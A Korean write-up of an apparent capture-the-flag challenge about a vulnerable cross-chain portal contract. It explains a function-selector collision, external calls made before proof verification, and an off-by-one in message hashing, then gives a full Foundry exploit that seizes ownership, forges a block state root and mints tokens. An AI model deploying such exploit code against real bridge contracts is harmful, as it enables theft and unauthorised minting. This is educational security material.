

## 문제
### 지문
This portal relies on a complex chain of cryptographic proofs to <br>verify cross-chain messages. It claims to be secure against invalid <br>state transitions, but the gap between verification and execution might <br>be wider than it looks.
Can you manage to mint some tokens for your wallet?
Things that might help:
- Understanding Function Selectors.
- The Checks-Effects-Interactions (CEI) pattern.
- Merkle Patricia Tries and RLP encoding.

Tips:
- Sometimes the data you verify isn't exactly the same data you execute.
- If a hash cycle seems impossible to solve, look for a way to break the loop.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// https://github.com/ethereum-optimism/optimism/blob/@eth-optimism/contracts@0.6.0/packages/contracts/contracts/libraries/rlp/Lib_RLPReader.sol
import { Lib_RLPReader } from "../helpers/lib/rlp/Lib_RLPReader.sol";
// https://github.com/ethereum-optimism/optimism/blob/@eth-optimism/contracts@0.6.0/packages/contracts/contracts/libraries/trie/Lib_SecureMerkleTrie.sol
import { Lib_SecureMerkleTrie } from "../helpers/lib/trie/Lib_SecureMerkleTrie.sol";
import { ReentrancyGuard } from "@openzeppelin/contracts/utils/ReentrancyGuard.sol";
import { ERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IMessageReceiver {
    function onMessageReceived(bytes memory messageData) external;
}

contract NotOptimisticPortal is ERC20, ReentrancyGuard{
    using Lib_RLPReader for bytes;
    using Lib_RLPReader for Lib_RLPReader.RLPItem;

    struct ProofData {
        bytes stateTrieProof;
        bytes storageTrieProof;
        bytes accountStateRlp;
    }

    address public constant L2_TARGET = 0x4242424242424242424242424242424242424242;
    uint16 public constant MAX_ROOT_BUFFER = 1000;

    // Shared data
    address public owner;
    address public sequencer;
    address public immutable governance;

    // L2 state data
    bytes32 public latestBlockHash;
    uint256 public latestBlockNumber;
    uint256 public latestBlockTimestamp;
    bytes32[MAX_ROOT_BUFFER] public l2StateRoots;
    uint16 public bufferCounter;
    mapping(bytes32 => bool) public executedMessages;

    event MessageExecuted(
        address indexed to,
        uint256 indexed amount,
        address[] targetAddresses,
        bytes[] executionDatas,
        uint256 salt
    );

    constructor(
        string memory _name,
        string memory _symbol,
        bytes memory _rlpBlockHeader, 
        address _governance
    ) ERC20(_name, _symbol) {
        owner = msg.sender;
        (bytes32 parentHash, bytes32 stateRoot, uint256 blockNumber, uint256 timestamp) = _extractData(_rlpBlockHeader);
        _updateL2State(keccak256(_rlpBlockHeader), parentHash, stateRoot, blockNumber, timestamp);
        governance = _governance;
    }

    function executeMessage(
        address _tokenReceiver,
        uint256 _amount,
        address[] calldata _messageReceivers,
        bytes[] calldata _messageData,
        uint256 _salt,
        ProofData calldata _proofs,
        uint16 _bufferIndex
    ) external nonReentrant {
        bytes32 withdrawalHash = _computeMessageSlot(
            _tokenReceiver,
            _amount,
            _messageReceivers,
            _messageData,
            _salt
        );
        require(!executedMessages[withdrawalHash], "Message already executed");
        require(_messageReceivers.length == _messageData.length, "Message execution data arrays mismatch");

        for(uint256 i; i < _messageData.length; i++){
            _executeOperation(_messageReceivers[i], _messageData[i], false);
        }

        _verifyMessageInclusion(
            withdrawalHash,
            _proofs.stateTrieProof,
            _proofs.storageTrieProof,
            _proofs.accountStateRlp,
            _bufferIndex
        );

        executedMessages[withdrawalHash] = true;

        if(_amount != 0){
            _mint(_tokenReceiver, _amount);
        }
        emit MessageExecuted(
            _tokenReceiver,
            _amount,
            _messageReceivers,
            _messageData,
            _salt
        );
    }

    function sendMessage(
        uint256 _amount,
        address[] calldata _messageReceivers,
        bytes[] calldata _messageData,
        uint256 _salt
    ) external {
        require(_messageReceivers.length == _messageData.length, "Message array mismatch");
        for(uint256 i; i < _messageData.length; i++){
            require(bytes4(_messageData[i][0:4]) == bytes4(0x3a69197e), "Message not allowed");
        }
        bytes32 storageSlot = _computeMessageSlot(
            msg.sender,
            _amount,
            _messageReceivers,
            _messageData,
            _salt
        );
        uint256 slotValue;
        assembly{
            slotValue := sload(storageSlot)
        }
        require(slotValue == 0, "Message already sent");
        assembly{
            sstore(storageSlot, 0x01)
        }
        _burn(msg.sender, _amount);
    }

    // Permissioned function (optimized to be at the end of the function selector dispatching)
    function submitNewBlock_____37278985983(bytes memory rlpBlockHeader) external onlySequencer {
        (bytes32 parentHash, bytes32 stateRoot, uint256 blockNumber, uint256 timestamp) = _extractData(rlpBlockHeader);
        _updateL2State(keccak256(rlpBlockHeader), parentHash, stateRoot, blockNumber, timestamp);
    }

    function updateSequencer_____76439298743(address newSequencer) external onlyOwner {
        sequencer = newSequencer;
    }

    function transferOwnership_____610165642(address newOwner) external onlyOwner {
        owner = newOwner;
    }

    function governanceAction_____2357862414(address target, bytes calldata callData) external onlyGovernance {
        _executeOperation(target, callData, true);
    }

    // Governance must be able to transfer portal ownership
    modifier onlyOwner() {
        require(msg.sender == owner || msg.sender == address(this), "Caller not owner");
        _;
    }

    modifier onlySequencer() {
        require(msg.sender == sequencer, "Caller not sequencer");
        _;
    }

    modifier onlyGovernance() {
        require(msg.sender == governance, "Caller not governance");
        _;
    }

    // Internal functions
    function _computeMessageSlot(
        address _tokenReceiver,
        uint256 _amount,
        address[] calldata _messageReceivers,
        bytes[] calldata _messageDatas,
        uint256 _salt
    ) internal pure returns(bytes32){
        bytes32 messageReceiversAccumulatedHash;
        bytes32 messageDatasAccumulatedHash;
        if(_messageReceivers.length != 0){
            for(uint i; i < _messageReceivers.length - 1; i++){
                messageReceiversAccumulatedHash = keccak256(abi.encode(messageReceiversAccumulatedHash, _messageReceivers[i]));
                messageDatasAccumulatedHash = keccak256(abi.encode(messageDatasAccumulatedHash, _messageDatas[i]));
            }
        }
        return keccak256(abi.encode(
            _tokenReceiver,
            _amount,
            messageReceiversAccumulatedHash,
            messageDatasAccumulatedHash,
            _salt
        ));
    }

    function _extractData(bytes memory rlpBlockHeader) internal pure
        returns(
            bytes32 parentHash,
            bytes32 stateRoot,
            uint256 number,
            uint256 timestamp
        ){
            Lib_RLPReader.RLPItem[] memory header = rlpBlockHeader.toRLPItem().readList();

            parentHash = bytes32(header[0].readUint256());
            stateRoot = bytes32(header[3].readUint256());
            number = header[8].readUint256();
            timestamp = header[11].readUint256();
    }

    function _verifyMessageInclusion(
        bytes32 messageSlot,
        bytes calldata stateTrieProof,
        bytes calldata storageTrieProof,
        bytes calldata accountStateRlp,
        uint16 bufferIndex
    ) internal view {
        // Verify L2_TARGET in state root
        bool accountVerified = Lib_SecureMerkleTrie.verifyInclusionProof(
            abi.encodePacked(L2_TARGET),
            accountStateRlp,
            stateTrieProof,
            l2StateRoots[bufferIndex]
        );
        require(accountVerified, "Invalid account proof");

        // Extract storageRoot
        Lib_RLPReader.RLPItem[] memory accountState = accountStateRlp.toRLPItem().readList();
        
        // Account state is [nonce, balance, storageRoot, codeHash]
        bytes32 storageRoot = accountState[2].readBytes32();

        // Verify message slot in storage root
        bool slotVerified = Lib_SecureMerkleTrie.verifyInclusionProof(
            abi.encodePacked(messageSlot),
            hex"01",
            storageTrieProof,
            storageRoot
        );
        require(slotVerified, "Invalid storage proof");
    }

    function _updateL2State(
        bytes32 newBlockHash,
        bytes32 parentBlockHash,
        bytes32 newRootState,
        uint256 newBlockNumber,
        uint256 newTimestamp
    ) internal {
        if(latestBlockHash != 0) require(parentBlockHash == latestBlockHash, "Invalid parent block hash");
        if(latestBlockNumber != 0) require(newBlockNumber == latestBlockNumber + 1, "Invalid block number");
        require(newTimestamp > latestBlockTimestamp, "Invalid timestamp");

        latestBlockHash = newBlockHash;
        l2StateRoots[bufferCounter] = newRootState;
        bufferCounter = (bufferCounter + 1) % 1000;
        latestBlockNumber = newBlockNumber;
        latestBlockTimestamp = newTimestamp;
    }

    function _executeOperation(
        address target,
        bytes calldata callData,
        bool isGovernanceAction
    ) internal {
        if(!isGovernanceAction){
            // Ensure the execution is the onMessageReceived(bytes) entrypoint on the target address
            require(bytes4(callData[0:4]) == bytes4(0x3a69197e), "Invalid message entrypoint");
        }
        (bool success, ) = target.call(callData);
        require(success, "Execution failed");
    }
}
```
## 배경지식

---

EVM에서 외부 함수 호출은 calldata의 앞 4바이트로 어떤 함수를 실행할지 고른다. 이 값은 함수 시그니처 문자열을 `keccak256`으로 해싱한 뒤 앞 4바이트만 잘라 만든다.
아래 두 함수 시그니처는 앞 4바이트가 같다.
```bash
$ cast sig "onMessageReceived(bytes)"
0x3a69197e
$ cast sig "transferOwnership_____610165642(address)"
0x3a69197e
```
`_executeOperation`은 일반 메시지 실행일 때 calldata 앞 4바이트가 `0x3a69197e`인지 확인한다. 원래 의도는 `onMessageReceived(bytes)`만 허용하는 것이지만, selector만 검사하면 같은 selector를 가진 다른 함수도 통과한다.
`transferOwnership_____610165642(address)` 호출 데이터도 메시지 실행 제한을 통과할 수 있다.

---

CEI는 Checks-Effects-Interactions 순서로 상태 검증과 상태 변경을 먼저 끝내고 외부 호출을 나중에 하라는 패턴이다. 여기서는 반대로 되어 있다.
`executeMessage`는 메시지 포함 proof를 검증하기 전에 `_messageReceivers`를 순회하면서 외부 호출을 먼저 실행한다. 외부 호출이 portal의 권한 상태나 L2 state root buffer를 바꿀 수 있으면, 검증이 실행되는 시점의 기준 데이터 자체가 바뀐다.
즉 이 문제는 단순한 reentrancy attack이 아니라, 검증 전 외부 호출 때문에 검증 로직이 참조할 상태를 공격자가 먼저 준비할 수 있는 문제다.

---

`_verifyMessageInclusion`은 Optimism의 `Lib_SecureMerkleTrie`를 사용한다. Secure trie에서는 원래 key를 그대로 trie path로 쓰지 않고 `keccak256(key)`를 path로 사용한다.
이 문제에서 검증은 두 단계다.
1. state trie에서 `L2_TARGET` 계정이 존재하는지 확인한다.
2. 그 계정의 `storageRoot`를 꺼내서 storage trie에 `messageSlot -> 0x01`이 존재하는지 확인한다.

계정 state는 RLP로 `[nonce, balance, storageRoot, codeHash]` 형태다. storage proof는 `messageSlot`을 key로 하는 leaf 하나만 가진 trie로 만들 수 있고, state proof도 `L2_TARGET` 계정 leaf 하나만 가진 trie로 만들 수 있다. 루트는 그 leaf node의 `keccak256`이 된다.
## 문제 코드 분석

---

Factory의 검증 조건부터 보자.
```solidity
function validateInstance(address payable _instance, address) public view override returns (bool) {
    NotOptimisticPortal instance = NotOptimisticPortal(_instance);
    return instance.totalSupply() > 0;
}
```
목표는 portal 토큰의 `totalSupply()`를 0보다 크게 만드는 것이다. `executeMessage`에서 `_amount != 0`이면 `_mint(_tokenReceiver, _amount)`가 실행되므로, 결국 유효한 withdrawal 메시지를 통과시켜 mint를 일으키면 된다.

---

먼저 `executeMessage`의 순서를 보자.
```solidity
function executeMessage(
    address _tokenReceiver,
    uint256 _amount,
    address[] calldata _messageReceivers,
    bytes[] calldata _messageData,
    uint256 _salt,
    ProofData calldata _proofs,
    uint16 _bufferIndex
) external nonReentrant {
    bytes32 withdrawalHash = _computeMessageSlot(
        _tokenReceiver,
        _amount,
        _messageReceivers,
        _messageData,
        _salt
    );
    require(!executedMessages[withdrawalHash], "Message already executed");
    require(_messageReceivers.length == _messageData.length, "Message execution data arrays mismatch");

    for(uint256 i; i < _messageData.length; i++){
        _executeOperation(_messageReceivers[i], _messageData[i], false);
    }

    _verifyMessageInclusion(
        withdrawalHash,
        _proofs.stateTrieProof,
        _proofs.storageTrieProof,
        _proofs.accountStateRlp,
        _bufferIndex
    );

    executedMessages[withdrawalHash] = true;

    if(_amount != 0){
        _mint(_tokenReceiver, _amount);
    }
}
```
`withdrawalHash`를 계산하고 재사용 여부만 확인한 뒤, proof 검증 전에 `_executeOperation`을 먼저 실행한다. 이 외부 호출 안에서 portal의 `owner`, `sequencer`, `l2StateRoots`를 바꿀 수 있다면 뒤의 `_verifyMessageInclusion`은 공격자가 준비한 상태를 기준으로 통과할 수 있다.
`nonReentrant` 때문에 같은 `executeMessage`로 다시 들어가는 방식은 막히지만, 다른 함수 호출은 막지 않는다. 따라서 콜백에서 `updateSequencer_____76439298743`와 `submitNewBlock_____37278985983`를 호출하는 흐름은 가능하다.

---

다음으로 `_computeMessageSlot`을 보자.
```solidity
function _computeMessageSlot(
    address _tokenReceiver,
    uint256 _amount,
    address[] calldata _messageReceivers,
    bytes[] calldata _messageDatas,
    uint256 _salt
) internal pure returns(bytes32){
    bytes32 messageReceiversAccumulatedHash;
    bytes32 messageDatasAccumulatedHash;
    if(_messageReceivers.length != 0){
        for(uint i; i < _messageReceivers.length - 1; i++){
            messageReceiversAccumulatedHash = keccak256(abi.encode(messageReceiversAccumulatedHash, _messageReceivers[i]));
            messageDatasAccumulatedHash = keccak256(abi.encode(messageDatasAccumulatedHash, _messageDatas[i]));
        }
    }
    return keccak256(abi.encode(
        _tokenReceiver,
        _amount,
        messageReceiversAccumulatedHash,
        messageDatasAccumulatedHash,
        _salt
    ));
}
```
루프 조건이 `i < _messageReceivers.length - 1`이다. 배열이 2개라면 0번 원소만 해시에 들어가고 1번 원소는 빠진다.
검증되는 메시지는 첫 번째 operation만 포함한 메시지인데, 실제 실행은 첫 번째와 두 번째 operation을 모두 실행한다. 이 때문에 검증 대상과 실제 실행 대상이 달라진다.
공격에서는 0번 operation을 `transferOwnership_____610165642(address(this))`로 두고, 1번 operation을 공격 컨트랙트의 `onMessageReceived(bytes)` 콜백으로 둔다. proof는 0번 operation까지만 포함한 `withdrawalHash`에 맞춰 만들고, 실제 실행에서는 1번 콜백까지 실행시킨다.

---

selector 검사도 문제가 된다.
```solidity
function _executeOperation(
    address target,
    bytes calldata callData,
    bool isGovernanceAction
) internal {
    if(!isGovernanceAction){
        require(bytes4(callData[0:4]) == bytes4(0x3a69197e), "Invalid message entrypoint");
    }
    (bool success, ) = target.call(callData);
    require(success, "Execution failed");
}
```
일반 메시지 실행에서는 selector가 `0x3a69197e`인지 확인한다. 그런데 `transferOwnership_____610165642(address)`도 selector가 `0x3a69197e`다.
```solidity
function transferOwnership_____610165642(address newOwner) external onlyOwner {
    owner = newOwner;
}

modifier onlyOwner() {
    require(msg.sender == owner || msg.sender == address(this), "Caller not owner");
    _;
}
```
`_executeOperation`은 `target.call(callData)`를 실행하고, target이 portal 자신이면 `msg.sender`는 portal 주소가 된다. `onlyOwner`는 `msg.sender == address(this)`를 허용하므로, portal이 자기 자신에게 `transferOwnership`을 호출하면 소유권 이전이 통과한다.
즉 첫 번째 메시지 실행만으로 공격 컨트랙트를 `owner`로 만들 수 있다.

---

owner를 잡은 뒤에는 sequencer와 state root를 바꿀 수 있다.
```solidity
function updateSequencer_____76439298743(address newSequencer) external onlyOwner {
    sequencer = newSequencer;
}

function submitNewBlock_____37278985983(bytes memory rlpBlockHeader) external onlySequencer {
    (bytes32 parentHash, bytes32 stateRoot, uint256 blockNumber, uint256 timestamp) = _extractData(rlpBlockHeader);
    _updateL2State(keccak256(rlpBlockHeader), parentHash, stateRoot, blockNumber, timestamp);
}
```
첫 번째 operation으로 공격 컨트랙트가 owner가 되면, 두 번째 콜백에서 `updateSequencer`를 호출해 자신을 sequencer로 만들 수 있다. 그 다음 `submitNewBlock`으로 원하는 `stateRoot`를 가진 새 block header를 제출한다.
`executeMessage`는 proof 검증 전에 콜백을 실행한다. 공격 코드는 `bufferIndex = target.bufferCounter()`를 미리 저장해두고, 콜백에서 `submitNewBlock`을 호출해 바로 그 index에 공격자가 만든 `stateRoot`를 기록한다. 이후 `_verifyMessageInclusion`은 방금 기록한 root를 기준으로 proof를 검증한다.

---

마지막으로 proof 검증을 보자.
```solidity
function _verifyMessageInclusion(
    bytes32 messageSlot,
    bytes calldata stateTrieProof,
    bytes calldata storageTrieProof,
    bytes calldata accountStateRlp,
    uint16 bufferIndex
) internal view {
    bool accountVerified = Lib_SecureMerkleTrie.verifyInclusionProof(
        abi.encodePacked(L2_TARGET),
        accountStateRlp,
        stateTrieProof,
        l2StateRoots[bufferIndex]
    );
    require(accountVerified, "Invalid account proof");

    Lib_RLPReader.RLPItem[] memory accountState = accountStateRlp.toRLPItem().readList();
    bytes32 storageRoot = accountState[2].readBytes32();

    bool slotVerified = Lib_SecureMerkleTrie.verifyInclusionProof(
        abi.encodePacked(messageSlot),
        hex"01",
        storageTrieProof,
        storageRoot
    );
    require(slotVerified, "Invalid storage proof");
}
```
`messageSlot`에 `hex"01"`이 들어 있다는 storage proof와, 그 storage root를 가진 `L2_TARGET` 계정이 state trie에 있다는 state proof가 필요하다.
하지만 `l2StateRoots[bufferIndex]` 자체를 콜백에서 바꿀 수 있으므로 실제 과거 L2 상태를 알 필요가 없다. 공격자는 `messageSlot -> 0x01`인 storage trie와 그 `storageRoot`를 가진 account state trie를 직접 구성하고, 그 root를 새 block header의 `stateRoot`로 제출하면 된다.
## 풀이
`executeMessage`는 검증 전에 메시지를 실행한다. 첫 번째 메시지는 selector collision을 이용해 portal이 자기 자신에게 `transferOwnership_____610165642(address(this))`를 호출하게 만든다. 이때 `onlyOwner`는 `msg.sender == address(this)`를 허용하므로 공격 컨트랙트가 owner가 된다.
두 번째 메시지는 `_computeMessageSlot`에 포함되지 않지만 실제로는 실행된다. 이 콜백에서 공격 컨트랙트는 owner 권한으로 자신을 sequencer로 설정하고, sequencer 권한으로 공격자가 만든 `stateRoot`를 가진 block header를 제출한다.
그 뒤 `executeMessage`가 원래 흐름으로 돌아와 `_verifyMessageInclusion`을 실행하면, `l2StateRoots[bufferIndex]`는 이미 공격자가 만든 root다. proof는 그 root에 맞춰 만든 것이므로 검증을 통과하고, 마지막에 `_mint(_tokenReceiver, _amount)`가 실행된다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

interface INotOptimisticPortal {
    struct ProofData {
        bytes stateTrieProof;
        bytes storageTrieProof;
        bytes accountStateRlp;
    }

    function executeMessage(
        address tokenReceiver,
        uint256 amount,
        address[] calldata messageReceivers,
        bytes[] calldata messageData,
        uint256 salt,
        ProofData calldata proofs,
        uint16 bufferIndex
    ) external;
    function updateSequencer_____76439298743(address newSequencer) external;
    function submitNewBlock_____37278985983(bytes memory rlpBlockHeader) external;
    function latestBlockHash() external view returns (bytes32);
    function latestBlockNumber() external view returns (uint256);
    function latestBlockTimestamp() external view returns (uint256);
    function bufferCounter() external view returns (uint16);
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
}

library Sol40RLPWriter {
    function writeBytes(bytes memory input) internal pure returns (bytes memory) {
        if (input.length == 1 && uint8(input[0]) < 128) {
            return input;
        }

        return abi.encodePacked(_writeLength(input.length, 128), input);
    }

    function writeList(bytes[] memory input) internal pure returns (bytes memory) {
        bytes memory payload = _flatten(input);
        return abi.encodePacked(_writeLength(payload.length, 192), payload);
    }

    function writeUint(uint256 input) internal pure returns (bytes memory) {
        if (input == 0) {
            return writeBytes("");
        }

        uint256 temp = input;
        uint256 length;
        while (temp != 0) {
            length++;
            temp >>= 8;
        }

        bytes memory output = new bytes(length);
        for (uint256 i; i < length; i++) {
            // forge-lint: disable-next-line(unsafe-typecast)
            output[length - 1 - i] = bytes1(uint8(input >> (i * 8)));
        }

        return writeBytes(output);
    }

    function _writeLength(uint256 length, uint256 offset) private pure returns (bytes memory) {
        if (length < 56) {
            bytes memory encoded = new bytes(1);
            // forge-lint: disable-next-line(unsafe-typecast)
            encoded[0] = bytes1(uint8(length + offset));
            return encoded;
        }

        uint256 temp = length;
        uint256 lengthOfLength;
        while (temp != 0) {
            lengthOfLength++;
            temp >>= 8;
        }

        bytes memory encodedLength = new bytes(lengthOfLength + 1);
        // forge-lint: disable-next-line(unsafe-typecast)
        encodedLength[0] = bytes1(uint8(offset + 55 + lengthOfLength));
        for (uint256 i; i < lengthOfLength; i++) {
            // forge-lint: disable-next-line(unsafe-typecast)
            encodedLength[lengthOfLength - i] = bytes1(uint8(length >> (i * 8)));
        }

        return encodedLength;
    }

    function _flatten(bytes[] memory input) private pure returns (bytes memory) {
        uint256 length;
        for (uint256 i; i < input.length; i++) {
            length += input[i].length;
        }

        bytes memory output = new bytes(length);
        uint256 offset;

        for (uint256 i; i < input.length; i++) {
            bytes memory item = input[i];
            for (uint256 j; j < item.length; j++) {
                output[offset + j] = item[j];
            }
            offset += item.length;
        }

        return output;
    }
}

contract NotOptimisticPortalAttack {
    address private constant L2_TARGET = 0x4242424242424242424242424242424242424242;
    bytes32 private constant EMPTY_CODE_HASH = keccak256("");
    bytes4 private constant TRANSFER_OWNERSHIP_SELECTOR = bytes4(0x3a69197e);
    uint256 private constant MINT_AMOUNT = 1 ether;
    uint256 private constant SALT = 40;

    INotOptimisticPortal private portal;
    bytes private pendingBlockHeader;

    function attack(INotOptimisticPortal target, address tokenReceiver) external {
        portal = target;

        uint256 initialSupply = target.totalSupply();
        uint256 initialBalance = target.balanceOf(tokenReceiver);

        address[] memory messageReceivers = new address[](2);
        bytes[] memory messageData = new bytes[](2);

        messageReceivers[0] = address(target);
        messageData[0] = abi.encodeWithSelector(TRANSFER_OWNERSHIP_SELECTOR, address(this));
        messageReceivers[1] = address(this);
        messageData[1] = abi.encodeWithSelector(this.onMessageReceived.selector, "");

        bytes32 withdrawalHash = _computeMessageSlot(tokenReceiver, MINT_AMOUNT, messageReceivers, messageData, SALT);
        (INotOptimisticPortal.ProofData memory proofs, bytes32 stateRoot) = _buildProofs(withdrawalHash);

        pendingBlockHeader = _buildBlockHeader(target, stateRoot);
        uint16 bufferIndex = target.bufferCounter();

        target.executeMessage(tokenReceiver, MINT_AMOUNT, messageReceivers, messageData, SALT, proofs, bufferIndex);

        delete pendingBlockHeader;
        delete portal;

        require(target.totalSupply() == initialSupply + MINT_AMOUNT, "mint failed");
        require(target.balanceOf(tokenReceiver) == initialBalance + MINT_AMOUNT, "receiver balance mismatch");
    }

    function onMessageReceived(bytes memory) external {
        INotOptimisticPortal target = portal;
        require(msg.sender == address(target), "only portal");

        target.updateSequencer_____76439298743(address(this));
        target.submitNewBlock_____37278985983(pendingBlockHeader);
    }

    function _computeMessageSlot(
        address tokenReceiver,
        uint256 amount,
        address[] memory messageReceivers,
        bytes[] memory messageData,
        uint256 salt
    ) private pure returns (bytes32) {
        bytes32 messageReceiversAccumulatedHash;
        bytes32 messageDataAccumulatedHash;

        for (uint256 i; i < messageData.length - 1; i++) {
            messageReceiversAccumulatedHash = keccak256(abi.encode(messageReceiversAccumulatedHash, messageReceivers[i]));
            messageDataAccumulatedHash = keccak256(abi.encode(messageDataAccumulatedHash, messageData[i]));
        }

        return keccak256(abi.encode(tokenReceiver, amount, messageReceiversAccumulatedHash, messageDataAccumulatedHash, salt));
    }

    function _buildProofs(bytes32 messageSlot)
        private
        pure
        returns (INotOptimisticPortal.ProofData memory proofs, bytes32 stateRoot)
    {
        bytes memory storageLeaf = _leafNode(abi.encodePacked(messageSlot), hex"01");
        bytes32 storageRoot = keccak256(storageLeaf);

        bytes memory accountStateRlp = _accountStateRlp(storageRoot);
        bytes memory stateLeaf = _leafNode(abi.encodePacked(L2_TARGET), accountStateRlp);
        stateRoot = keccak256(stateLeaf);

        proofs = INotOptimisticPortal.ProofData({
            stateTrieProof: _proofForSingleLeaf(stateLeaf),
            storageTrieProof: _proofForSingleLeaf(storageLeaf),
            accountStateRlp: accountStateRlp
        });
    }

    function _leafNode(bytes memory key, bytes memory value) private pure returns (bytes memory) {
        bytes[] memory items = new bytes[](2);
        items[0] = Sol40RLPWriter.writeBytes(abi.encodePacked(bytes1(0x20), keccak256(key)));
        items[1] = Sol40RLPWriter.writeBytes(value);
        return Sol40RLPWriter.writeList(items);
    }

    function _proofForSingleLeaf(bytes memory leaf) private pure returns (bytes memory) {
        bytes[] memory proof = new bytes[](1);
        proof[0] = Sol40RLPWriter.writeBytes(leaf);
        return Sol40RLPWriter.writeList(proof);
    }

    function _accountStateRlp(bytes32 storageRoot) private pure returns (bytes memory) {
        bytes[] memory accountState = new bytes[](4);
        accountState[0] = Sol40RLPWriter.writeUint(0);
        accountState[1] = Sol40RLPWriter.writeUint(0);
        accountState[2] = Sol40RLPWriter.writeBytes(abi.encodePacked(storageRoot));
        accountState[3] = Sol40RLPWriter.writeBytes(abi.encodePacked(EMPTY_CODE_HASH));
        return Sol40RLPWriter.writeList(accountState);
    }

    function _buildBlockHeader(INotOptimisticPortal target, bytes32 stateRoot) private view returns (bytes memory) {
        bytes[] memory header = new bytes[](12);
        header[0] = Sol40RLPWriter.writeBytes(abi.encodePacked(target.latestBlockHash()));
        header[1] = Sol40RLPWriter.writeBytes("");
        header[2] = Sol40RLPWriter.writeBytes("");
        header[3] = Sol40RLPWriter.writeBytes(abi.encodePacked(stateRoot));
        header[4] = Sol40RLPWriter.writeBytes("");
        header[5] = Sol40RLPWriter.writeBytes("");
        header[6] = Sol40RLPWriter.writeBytes("");
        header[7] = Sol40RLPWriter.writeBytes("");
        header[8] = Sol40RLPWriter.writeUint(target.latestBlockNumber() + 1);
        header[9] = Sol40RLPWriter.writeBytes("");
        header[10] = Sol40RLPWriter.writeBytes("");
        header[11] = Sol40RLPWriter.writeUint(target.latestBlockTimestamp() + 1);
        return Sol40RLPWriter.writeList(header);
    }
}

contract Sol40 is Script {
    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        address player = vm.addr(privateKey);
        INotOptimisticPortal portal = INotOptimisticPortal(vm.envAddress("NOT_OPTIMISTIC_PORTAL_INSTANCE"));

        vm.startBroadcast(privateKey);
        NotOptimisticPortalAttack attackContract = new NotOptimisticPortalAttack();
        attackContract.attack(portal, player);
        vm.stopBroadcast();
    }
}
```

